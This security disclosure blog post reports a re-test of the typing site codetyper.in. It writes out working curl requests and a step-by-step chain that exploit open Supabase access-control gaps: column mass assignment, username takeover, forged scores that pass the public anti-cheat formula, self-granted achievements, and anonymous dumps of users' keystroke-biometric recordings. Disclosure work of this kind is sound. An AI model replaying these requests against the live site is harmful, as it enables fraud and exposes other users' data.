


# Context
In April 2026 I disclosed a set of critical vulnerabilities in codetyper.in. The vendor patched the admin IDOR. I came back in late May and late June to see what else stuck. The short version: the admin IDOR stayed fixed. Everything else didn't.
# Patch status
| Round-1 finding | Patched? | Notes |
|---|---|---|
| Admin IDOR | Yes | RLS on admins scoped to auth.uid(). |
| Private profile bypass | Yes | profile_public=false rows filtered from anon. |
RLS on profiles | No | 96 full records still served to anon. |
RLS on sessions | No | 899 records. Now also leaks flag_reason, moderator_note. |
RLS on ghost_recordings | No | 827 keystroke recordings, still joinable to usernames + snippet content. |
| Early-access code | Partially (logic fixed, same code) | Moved server-side, same code still validates. |
# Profiles mass assignment
The RLS UPDATE policy on profiles restricts which rows you can modify but not which columns. Any authenticated user can set whatever they want on their own row:
curl -X PATCH "$SUPA/rest/v1/profiles?id=eq.$MY_ID" \
-H "apikey: $KEY" -H "Authorization: Bearer $TOKEN" \
-d '{"is_plus":true,"is_bot":true,"longest_streak":999,
"current_streak":365,"total_sessions":100}'
# HTTP 200 — all values appliedis_plus, is_bot, streaks, total_sessions, showcase_achievements, username — all directly settable. Free Plus, fake streaks, the username admin (nobody had claimed it).
# Username takeover
Same column-level gap. You can change your username to any unclaimed string — admin, support, moderator were all available. username_changed_at didn't update after the PATCH, so there's no cooldown either.
curl -X PATCH "$SUPA/rest/v1/profiles?id=eq.$MY_ID" \
-H "apikey: $KEY" -H "Authorization: Bearer $TOKEN" \
-d '{"username":"admin"}'
# HTTP 200 — "username":"admin"# Session forgery
Any authenticated user can POST sessions with forged WPM, accuracy, and score. A server-side trigger checks for score mismatches and sets flagged_for_review: true, but the session is still inserted and total_sessions still increments. The anti-cheat formula is in the public bundle:
function QC(nckpm, accuracy, perfect) {
return round(nckpm^0.65 * accuracy^1.5 * 17.8 * (perfect ? 1.05 : 1));
}Compute a matching deft_score and the session passes unflagged:
POST /rest/v1/sessions
{"nckpm":600, "accuracy":97.5, "deft_score":1096, "tier":"ELITE"}
--> HTTP 201 — not flaggedTwenty forged sessions later my test account hit #1 on the Python leaderboard with a rolling average of 1027.75 (previous #1 was 961).

# Self-grant achievements
user_achievements has no RLS on INSERT, and the achievements table is anon-readable, so every achievement ID is known. Grant yourself whatever:
POST /rest/v1/user_achievements
{"user_id":"<self>","achievement_id":"speed_80"}
POST /rest/v1/user_achievements
{"user_id":"<self>","achievement_id":"speed_100"}
--> HTTP 201 — both grantedI granted 11 including streak_365, speed_80, and speed_100. They show on the public profile via showcase_achievements.
# The result
Combined with the mass-assignment PATCH above, the forged profile looked like this:

# Still anon-readable
- profiles — 96 records with bio, social handles, streak stats,
is_plus. - sessions — 899 records. New columns:
flagged_for_review,flag_reason,moderator_note. Anyone can see who's been flagged and why. - ghost_recordings — 827 keystroke-biometric recordings, joinable to
profiles(username)andsnippets(content)in one query.
curl "$SUPA/rest/v1/ghost_recordings?\
select=user_id,profiles(username),snippets(content),recording_json&limit=10" \
-H "apikey: $KEY"# Full chain
1. Register account (no email confirmation, no rate limit)
2. PATCH profiles → is_plus, is_bot, streak=999
3. POST user_achievements → speed_80, speed_100, anything
4. Compute matching score from the public formula
5. POST sessions × 20 → all pass anti-cheat
6. #1 on the Python leaderboard, Plus, ELITE, 999-day streak, all achievementsThree minutes of curl.
# What's blocked
The admin IDOR fix is solid. These all fail appropriately:
| Endpoint | Result |
|---|---|
INSERT into admins | 42501 |
SELECT from admins (other rows) | [] |
auth/v1/admin/* | 403 not_admin |
INSERT into blog_posts, changelogs, roadmap_items | 42501 |
ghost_recordings with foreign user_id | 403 |
| JWTs | ES256, not forgeable |
# Fix
Postgres RLS is row-level only. Column-level write protection needs either a BEFORE UPDATE trigger that rejects changes to protected columns (is_plus, is_bot, streaks, username) by non-service-role JWTs, or a SECURITY DEFINER RPC that only accepts user-editable fields. is_plus should only be writable by the billing webhook. The anti-cheat should hard-reject mismatches instead of soft-flagging, and ghost_recordings needs RLS.
# Timeline
| Date | Breakthrough |
|---|---|
| Round 1: check first post for more info :) | |
| Round 1 reported to vendor | |
| Vendor confirms patches | |
| Round 1 write-up published | |
| Round 2: re-test. Most findings still open. | |
| Round 3: live demo, #1 on the leaderboard. | |
| Write-up published. |
# TL:DR
- Admin IDOR: fixed.
- Anon data leaks (profiles, sessions, ghost_recordings): still open. Moderation metadata now exposed too.
profilesmass assignment: setis_plus, streaks, username,is_bot— whatever you want.- Anti-cheat: formula is in the public bundle. Submit matching scores, pass unflagged.
- I hit #1 on the Python leaderboard in 3 minutes.
- Fix: column-level write protection, hard-reject mismatches, RLS on
ghost_recordings.
All testing performed with authorization. Only throwaway accounts were modified; changes were reverted promptly after disclosure. No other user data was touched. Content disclosure: The development of this specific page was aided with AI tools.
← btea.dev